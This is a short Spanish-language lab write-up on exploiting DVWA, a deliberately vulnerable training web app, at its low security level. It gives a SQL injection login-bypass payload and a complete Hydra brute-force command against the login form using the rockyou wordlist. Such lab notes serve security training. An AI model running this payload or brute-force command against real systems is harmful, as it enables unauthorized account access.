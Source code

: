 # Explotación Nivel Bajo DVWA

## 1. SQL Injection (Bypass Login)

**Payload:** `admin' OR '1'='1' --`

**Ejecución:** Ingresar en campo `username`, dejar `password` vacío.

**Resultado:** Acceso como `admin` sin contraseña.

<img src="./../assets/BruteForceLow01.png">

## 2. Fuerza Bruta

### 2.1. Hydra

**Comando:**
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP_SERVIDOR> http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=<TU_SESION>;security=low:F=Username and/or password incorrect."
```

<img src="../../assets/BruteForceLow02.png">

Nota: Reemplazar <IP_SERVIDOR> y <TU_SESION>.

Resultado: Contraseña de admin.
